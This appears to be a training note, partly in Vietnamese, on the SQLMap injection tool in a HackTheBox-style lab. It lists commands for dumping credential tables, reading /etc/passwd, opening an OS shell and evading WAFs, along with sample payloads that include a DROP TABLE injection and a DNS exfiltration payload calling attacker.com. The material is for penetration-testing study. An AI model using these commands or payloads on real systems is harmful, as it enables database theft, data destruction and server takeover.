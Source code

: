 # SQL Map

Chúng ta đều biết nó là gì 


```bash
naruto3co@htb[/htb]$ python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'
```

SQLMap comes with a powerful detection engine, numerous features, and a broad range of options and switches for fine-tuning the many aspects of it, such as:
| Khả năng | Mô tả | Ví dụ lệnh |
|---|---:|---|
| **Kết nối tới mục tiêu** | Thiết lập kết nối và xác định điểm có khả năng bị SQLi trên URL mục tiêu. | `sqlmap -u "http://example.com/vuln.php?id=1" --batch --dbs` |
| **Phát hiện injection** | Phát hiện xem tham số có bị SQL injection hay không, tăng `level`/`risk` để kiểm tra sâu hơn. | `sqlmap -u "http://example.com/vuln.php?id=1" --level=5 --risk=3 --batch` |
| **Fingerprinting (nhận diện DBMS)** | Xác định loại và phiên bản hệ quản trị cơ sở dữ liệu (MySQL, PostgreSQL, MSSQL...). | `sqlmap -u "http://example.com/vuln.php?id=1" --fingerprint` |
| **Liệt kê (Enumeration)** | Liệt kê cơ sở dữ liệu, bảng, cột và dump dữ liệu. | `sqlmap -u "http://example.com/vuln.php?id=1" -D target_db --tables`<br>`sqlmap -u "..." -D target_db -T users --columns`<br>`sqlmap -u "..." -D target_db -T users -C id,username,password --dump` |
| **Tối ưu hoá (Performance / tuning)** | Điều chỉnh tham số để tăng tốc hoặc ổn định quá trình tấn công (số luồng, timeout,...). | `sqlmap -u "http://example.com/vuln.php?id=1" --threads=10 --timeout=10 --batch` |
| **Phát hiện và bypass biện pháp bảo vệ bằng tamper scripts** | Dùng script `--tamper` để thay đổi payload (obfuscation) nhằm né WAF/IDS/IPS hoặc các filter. | `sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment,between --batch` |
| **Lấy nội dung DB (Database content retrieval)** | Trích xuất dữ liệu cụ thể từ bảng/column sau khi đã liệt kê được. | `sqlmap -u "http://example.com/vuln.php?id=1" -D target_db -T credentials -C user,pass --dump` |
| **Truy cập hệ thống file** | Đọc file trên server nếu DB/tối ưu cho phép truy cập file system. | `sqlmap -u "http://example.com/vuln.php?id=1" --file-read="/etc/passwd"` |
| **Thực thi lệnh trên hệ điều hành (OS commands)** | Mở shell hoặc chạy lệnh OS nếu có khả năng (depends on DB + privileges). | `sqlmap -u "http://example.com/vuln.php?id=1" --os-shell`<br>`sqlmap -u "..." --os-cmd="id"` |


SQLMap Installation
SQLMap is pre-installed on your Pwnbox, and the majority of security-focused operating systems. SQLMap is also found on many Linux Distributions' libraries. For example, on Debian, it can be installed with:
  naruto3co@htb[/htb]$ sudo apt install sqlmap

If we want to install manually, we can use the following command in the Linux terminal or the Windows command line:
  naruto3co@htb[/htb]$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

After that, SQLMap can be run with:
  naruto3co@htb[/htb]$ python sqlmap.py  

Supported Databases
SQLMap has the largest support for DBMSes of any other SQL exploitation tool. SQLMap fully supports the following DBMSes:


The SQLMap team also works to add and support new DBMSes periodically.
Supported SQL Injection Types
SQLMap is the only penetration testing tool that can properly detect and exploit all known SQLi types. We see the types of SQL injections supported by SQLMap with the sqlmap -hh command:
```bash
naruto3co@htb[/htb]$ sqlmap -hh
...SNIP...
  Techniques:
    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
```
The technique characters BEUSTQ refers to the following:
  B: Boolean-based blind
  E: Error-based
  U: Union query-based
  S: Stacked queries
  T: Time-based blind
  Q: Inline queries


Boolean-based blind SQL Injection
  Example of Boolean-based blind SQL Injection:
  ```bash
  AND 1=1
  ```

SQLMap exploits Boolean-based blind SQL Injection vulnerabilities through the differentiation of TRUE from FALSE query results, effectively retrieving 1 byte of information per request. The differentiation is based on comparing server responses to determine whether the SQL query returned TRUE or FALSE. This ranges from fuzzy comparisons of raw response content, HTTP codes, page titles, filtered text, and other factors.
  TRUE results are generally based on responses having none or marginal difference to the regular server response.
  FALSE results are based on responses having substantial differences from the regular server response.
  Boolean-based blind SQL Injection is considered as the most common SQLi type in web applications.

Error-based SQL Injection
  Example of Error-based SQL Injection:
  ```bash
  AND GTID_SUBSET(@@version,0)
  ```


If the database management system (DBMS) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries. In such cases, specialized payloads for the current DBMS are used, targeting the functions that cause known misbehaviors. SQLMap has the most comprehensive list of such related payloads and covers Error-based SQL Injection for the following DBMSes:

| Category | Database Systems |
|---|---|
| **Popular Open-Source / Enterprise** | MySQL, PostgreSQL, Oracle |
| **Enterprise / Commercial** | Microsoft SQL Server, Sybase, Vertica |
| **Legacy / Analytics** | IBM DB2, Firebird, MonetDB |

Error-based SQLi is considered as faster than all other types, except UNION query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called "chunks" through each request.
UNION query-based
Example of UNION query-based SQL Injection:
  ```bash
  UNION ALL SELECT 1,@@version,3
  ```

With the usage of UNION, it is generally possible to extend the original (vulnerable) query with the injected statements' results. This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.

Stacked queries
  Example of Stacked Queries:
  ```bash
  ; DROP TABLE users
  ```
Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. INSERT, UPDATE or DELETE), stacking must be supported by the vulnerable platform (e.g., Microsoft SQL Server and PostgreSQL support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.


Time-based blind SQL Injection
Example of Time-based blind SQL Injection:
  ```bash
  AND 1=IF(2>1,SLEEP(5),0)
  ```

The principle of Time-based blind SQL Injection is similar to the Boolean-based blind SQL Injection, but here the response time is used as the source for the differentiation between TRUE or FALSE.
  TRUE response is generally characterized by the noticeable difference in the response time compared to the regular server response
  FALSE response should result in a response time indistinguishable from regular response times
Time-based blind SQL Injection is considerably slower than the boolean-based blind SQLi, since queries resulting in TRUE would delay the server response. This SQLi type is used in cases where Boolean-based blind SQL Injection is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. INSERT, UPDATE or DELETE), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as Boolean-based blind SQL Injection would not really work in this case.

Inline queries
Example of Inline Queries:
  ```bash
  SELECT (SELECT @@version) from
  ```
This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.


Out-of-band SQL Injection
Example of Out-of-band SQL Injection:
```bash
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. .attacker.com), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. foo.attacker.com), where foo would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the foo part, to form the entire SQL response.













